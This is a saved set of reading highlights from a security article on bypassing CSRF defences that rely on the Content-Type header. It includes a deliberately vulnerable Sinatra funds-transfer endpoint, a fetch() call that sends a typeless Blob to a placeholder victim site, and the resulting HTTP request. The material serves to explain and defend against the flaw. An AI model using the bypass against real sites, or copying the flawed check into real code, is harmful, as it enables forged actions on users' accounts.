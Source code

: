 ```yaml
---
author: Luke Jahnke
aliases:
  - Cross-Site POST Requests Without a Content-Type Header
tags:
  - readwise/articles
url: https://nastystereo.com/security/cross-site-post-without-content-type.html
date: 2025-02-06
---
```

# Cross-Site POST Requests Without a Content-Type Header

There are many different ways that web applications implement protection against [Cross-Site Request Forgery (CSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Request%20Forgery%20(CSRF).md) attacks.
[View Highlight](https://read.readwise.io/read/01jkdvrz051k2b2ax2brxynnnv)

One interesting attempt at CSRF protection is the rejection of requests with a `Content-Type` header not equal to `application/json`. The effectiveness of this comes from browsers only allowing `application/x-www-form-urlencoded`, `multipart/form-data` and `text/plain` (and possibly a few other [exceptions](https://fetch.spec.whatwg.org/#cors-protocol-exceptions)) to be sent cross-site. It is possible to send arbitrary values, but only after the receiving website has granted permission via [Cross-origin resource sharing (CORS)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-origin%20resource%20sharing%20(CORS).md).
[View Highlight](https://read.readwise.io/read/01jkdvv7jya997pa6vn63wwk3t)

An interesting caveat where the protection can be bypassed if implemented as in the example application below.
[View Highlight](https://read.readwise.io/read/01jkdvxax1a3bhc2h987823azp)


```rb
require "sinatra"
require "json"

before do
  # ... authentication check ...
end

post "/transfer-funds" do
  if request.content_type && request.content_type != "application/json"
    halt 403, "CSRF detected"
  end

  transaction = JSON.parse(request.body.read)
  # ... authorization check and process transaction ...
end
```
[View Highlight](https://read.readwise.io/read/01jkdvy02tt3p7g3pgjktmb5r5)

There is a gotcha due to the `fetch` API not only accepting `String` objects for the `body` parameter, but also `Blob` objects.
[View Highlight](https://read.readwise.io/read/01jkdvzers36yy7mwt23j7nee3)

By creating a `Blob` object without a type, then passing it to the `fetch` function, **a HTTP POST request can be sent cross-site, without CORS, that will not have a `Content-Type` request header**. This isn't just limited to empty request bodies either, as the data passed to `Blob` will become the HTTP request body.
[View Highlight](https://read.readwise.io/read/01jkdw1nwd7tqqevmkccgjbg1f)

```js
fetch("https://victim.com", { 
	method: "POST", 
	body: new Blob(["payload"]) 
});
```
[View Highlight](https://read.readwise.io/read/01jkdw1ycnh140k7484ma2ca0v)

```http
POST / HTTP/1.1
Host: victim.com
Connection: keep-alive
Content-Length: 7
sec-ch-ua: "Google Chrome"[snip...]
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 [snip...]
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: https://nastystereo.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://nastystereo.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9

payload
```
[View Highlight](https://read.readwise.io/read/01jkdw26nes4dnfv36b7nff5ky)

